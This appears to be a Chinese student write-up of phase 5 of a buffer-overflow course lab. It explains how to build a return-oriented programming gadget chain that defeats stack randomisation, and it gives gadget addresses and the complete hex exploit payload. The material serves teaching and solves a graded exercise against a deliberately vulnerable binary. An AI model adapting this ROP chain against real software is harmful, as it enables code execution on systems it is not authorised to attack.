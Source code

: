 进行验证，成功。

## phase5

在这一题需要传cookie的字符串作为参数，但是由于栈随机化策略，我们不能知道存放字符串的绝对地址，只能根据运行时的%rsp进行推算。所以解题的思路就是：

在适当的位置放入字符串
得到某个时刻%rsp的位置
对这个位置进行适当的偏移作为字符串的地址
第三步需要用到加法，但是gadget中并没有addq的指令编码，仔细观察可以看到gadget中原来就有一个add_xy
```
0000000000401b89 <add_xy>:
  401b89:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401b8d:	c3                   	retq   
```

所以我之前总是说lab最好团队做，看教程做，这种一方面让你找ROP，另一方面又有这种直接用整段代码的题目有点像脑筋急转弯，想不到的话却是浪费时间。 那么思路就成了怎么把%rsp和偏移放到%rdi和%rsi，然后怎么把%rax放到%rdi。一样是迂回策略，仔细研究就可以发现以下路径：
```
popq %rax          401b80
0x20
movl %eax,%ecx     401bd8
movl %ecx,%edx     401c57
movl %edx,%esi     401c1a
movq %rsp,%rax     401baa
movq %rax,%rdi     401b4f
lea    (%rdi,%rsi,1),%rax   401b89
movq %rax,%rdi     401b4f   %rdi = %rsp + 0x20
touch3
cookie
```

得到%rsp的时候和cookie的地址差了4条指令，所以偏移就是32，当然如果先取出了%rsp，那么偏移就要相应更改。

得到如下结果：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 1b 40 00 00 00 00 00
20 00 00 00 00 00 00 00
d8 1b 40 00 00 00 00 00
57 1c 40 00 00 00 00 00
1a 1c 40 00 00 00 00 00
aa 1b 40 00 00 00 00 00
4f 1b 40 00 00 00 00 00
89 1b 40 00 00 00 00 00
4f 1b 40 00 00 00 00 00
0d 1a 40 00 00 00 00 00
37 37 63 33 39 34 34 66
00 00 00 00 00 00 00 00
```
